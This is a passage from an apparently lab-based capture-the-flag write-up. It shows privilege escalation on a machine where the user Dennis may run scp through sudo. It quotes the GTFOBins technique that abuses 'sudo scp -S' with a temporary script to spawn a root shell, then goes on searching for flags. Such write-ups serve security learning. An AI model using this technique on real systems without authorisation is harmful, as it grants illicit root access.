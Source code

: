 ## 4. Privilege Escalation

I ran `sudo -l` to check if Dennis could run any commands as root where we find scp

<figure><img src="../.gitbook/assets/priv esc sudo.PNG" alt=""><figcaption></figcaption></figure>

Looking this up on [GTFO bins](https://gtfobins.github.io/gtfobins/scp/#sudo) we can use the following to get a root shell

```bash
TF=$(mktemp)
echo 'sh 0<&2 1>&2' > $TF
chmod +x "$TF"
sudo scp -S $TF x y:
```

<figure><img src="../.gitbook/assets/priv esc whoami root.PNG" alt=""><figcaption></figcaption></figure>

I then ran the same `find` command again to look for flags 3 and 5. This only recovered flag 5 in /root

<figure><img src="../.gitbook/assets/SSH flag 5 (1).PNG" alt=""><figcaption></figcaption></figure>

**So where was flag 3?**\
It appears that flag 3 is not named in the same way as the other flags. So my next approach was to search for flag and then flag3 in the contents of the files
